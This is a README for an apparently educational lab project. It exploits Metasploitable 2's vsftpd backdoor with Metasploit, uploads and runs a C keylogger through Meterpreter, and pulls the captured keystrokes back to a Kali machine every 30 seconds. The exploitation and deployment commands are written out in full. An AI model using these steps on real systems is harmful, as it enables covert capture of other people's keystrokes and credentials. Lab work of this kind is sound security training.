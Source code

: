 # keylogger-project


## Overview

This repository contains a Keylogger project. The project demonstrates the creation, deployment, and remote monitoring of a keylogger using two virtual machines: **Kali Linux** (attacker) and **Metasploitable 2** (victim). The keylogger captures keystrokes on the victim machine and periodically sends them to the attacker machine for analysis.


## Project Structure

The project consists of the following components:

1. **Keylogger (C Program)**: A custom keylogger written in C that captures keystrokes on the Metasploitable 2 victim machine and logs them to a file (`/tmp/keylogger_output.log`).
2. **Metasploit Exploitation**: Utilizes Metasploit on Kali Linux to exploit a vulnerability in Metasploitable 2’s vsftpd server, establish a Meterpreter session, and upload the keylogger.
3. **Periodic Log Fetcher (Bash Script)**: A Bash script (`periodic_cat.sh`) running on Kali Linux that fetches the keylogger’s output log from the victim machine every 30 seconds using `sshpass` for automated SSH access.

## Architecture

- **Attacker Machine**: Kali Linux (IP: `10.0.2.15`)
- **Victim Machine**: Metasploitable 2 (IP: `10.0.2.4`)
- **Virtualization Platform**: Oracle VirtualBox
- **Host OS**: Windows 11

The keylogger is uploaded to the victim machine via a Meterpreter session, compiled, and executed to capture keystrokes. The attacker retrieves the logged keystrokes periodically using SSH.

## Features

- **Keylogger Functionality**:
  - Captures raw keyboard input events from `/dev/input/eventX`.
  - Supports Shift key detection for accurate capitalization.
  - Logs keystrokes (e.g., letters, numbers, Enter, Backspace) to a specified file.
  - Runs as a background daemon process.
- **Remote Deployment**:
  - Exploits Metasploitable 2’s vsftpd vulnerability using Metasploit.
  - Uploads and compiles the keylogger remotely via Meterpreter.
- **Periodic Monitoring**:
  - Automatically fetches the keylogger’s log file every 30 seconds using a Bash script.
  - Displays captured keystrokes on the attacker’s terminal.

## Prerequisites

To replicate this project, you need:

- **Hardware/Software**:
  - A computer running Oracle VirtualBox.
  - Kali Linux ISO (for the attacker VM).
  - Metasploitable 2 ISO (for the victim VM).
  - Windows 11 (or any host OS supporting VirtualBox).
- **Tools**:
  - Metasploit Framework (pre-installed on Kali Linux).
  - `gcc` compiler on Metasploitable 2 (for compiling the keylogger).
  - `sshpass` on Kali Linux (for automated SSH log retrieval).
- **Network Setup**:
  - Both VMs configured on the same VirtualBox NAT network.
  - Assigned IPs: Kali Linux (`10.0.2.15`), Metasploitable 2 (`10.0.2.4`).

## Installation

1. **Set Up Virtual Machines**:
   - Install Oracle VirtualBox on your host machine.
   - Create two VMs and install Kali Linux and Metasploitable 2, respectively.
   - Configure both VMs to use a NAT network in VirtualBox.
   - Verify network connectivity by pinging between VMs.

2. **Install Dependencies**:
   - On Kali Linux:
     ```bash
     sudo apt update
     sudo apt install sshpass
     ```
   - On Metasploitable 2: Ensure `gcc` is available (usually pre-installed).

3. **Clone the Repository**:
   ```bash
   git clone https://github.com/aman181003/keylogger-project.git
   cd keylogger-project
   ```

## Usage

Follow these steps to run the project:

### Step 1: Build the Keylogger
- The keylogger source code is provided in `keylogger.c`.
- The C program captures keyboard events, logs them to a file, and runs in the background.
- No manual compilation is needed on Kali; it will be compiled on Metasploitable 2 later.

### Step 2: Establish a Meterpreter Session
1. Start Metasploit on Kali Linux:
   ```bash
   msfconsole
   ```
2. Exploit the vsftpd vulnerability on Metasploitable 2(10.0.2.4):
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS 10.0.2.4
   run
   ```
3. Upgrade to a Meterpreter session:
   ```bash
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   run
   ```

### Step 3: Upload and Run the Keylogger
1. In the Meterpreter session, upload the keylogger:
   ```bash
   upload keylogger.c /tmp/keylogger.c
   ```
2. Access a shell and compile the keylogger on Metasploitable 2:
   ```bash
   shell
   cd /tmp
   gcc keylogger.c -o keylogger_exec
   chmod +x keylogger_exec
   ./keylogger_exec -l /tmp/keylogger_output.log
   ```
3. The keylogger now runs in the background, logging keystrokes to `/tmp/keylogger_output.log`.

### Step 4: Fetch Keystrokes Periodically
1. On Kali Linux, ensure the `periodic_cat.sh` script is executable:
   ```bash
   chmod +x periodic_cat.sh
   ```
2. Run the script to fetch the log file every 30 seconds:
   ```bash
   ./periodic_cat.sh
   ```
3. The script will display the contents of `/tmp/keylogger_output.log` from Metasploitable 2, updating every 30 seconds.

### Example Output
When you type commands like `Hello this is Aman` on Metasploitable 2, the keylogger captures:
```
Hello this is Aman<Enter>The keylogger is working fine<Enter>
```
The `periodic_cat.sh` script retrieves and displays this output on Kali Linux.

## Files in the Repository

- `keylogger.c`: Source code for the C-based keylogger.
- `periodic_cat.sh`: Bash script for fetching the keylogger’s log file periodically.
- `README.md`: This documentation file.



